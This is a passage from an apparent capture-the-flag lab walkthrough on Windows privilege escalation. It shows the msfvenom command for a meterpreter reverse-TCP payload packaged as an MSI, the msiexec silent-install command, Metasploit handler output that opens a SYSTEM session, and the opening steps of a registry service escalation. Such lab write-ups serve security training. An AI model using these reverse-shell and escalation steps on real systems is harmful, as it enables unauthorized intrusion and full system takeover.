**Exploitation**

Now, let's background our meterpreter session and open a second handler, on port 5555:

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:5555
~~~

Create a new reverse shell (this time as msi instead of exe) with msfvenom:

~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
~~~

Transfer the msi generated file to the Windows machine (to `C:\temp\setup.msi`) using the same technique as previously. Once done, execute it:

~~~
C:\> msiexec /quiet /qn /i c:\temp\setup.msi
~~~

We now have a meterpreter, with `NT AUTHORITY\SYSTEM` privileges:

~~~
[*] Started reverse TCP handler on 10.9.**.**:5555 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 2 opened (10.9.**.**:5555 -> 10.10.242.238:49323) at 2020-05-19 10:46:04 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
~~~

# [Task 5] Service Escalation - Registry

## #5.0 - Instructions

**﻿Detection**

Windows VM

1. Open powershell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.
